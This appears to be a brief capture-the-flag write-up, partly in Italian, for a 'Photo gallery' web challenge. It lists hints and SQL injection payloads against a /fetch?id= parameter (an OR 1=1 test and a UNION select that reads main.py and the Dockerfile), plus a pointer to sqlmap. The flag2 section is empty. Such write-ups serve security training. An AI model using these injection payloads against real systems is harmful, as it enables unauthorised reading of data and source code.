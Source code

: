 ## Photo gallery

# flag0

+ Hint: Consider how you might build this system yourself. What would the query for fetch look like?

![picture](imgs/1.png)

+ `/fetch?id=1 OR 1=1 --` non manda in errore l'esecuzione della query

+ Hint: This application runs on the [uwsgi-nginx-flask-docker image](https://github.com/tiangolo/uwsgi-nginx-flask-docker)

+ ![picture](imgs/2.png)

+ Hint : Take a few minutes to consider the state of the union

+ `/fetch?id=22 UNION select 'main.py'--` , come da immagine è possibile leggere anche Dockerfile

# flag1

+ [sqlmap](https://github.com/sqlmapproject/sqlmap)

+ ![picture](imgs/2.png)

# flag2
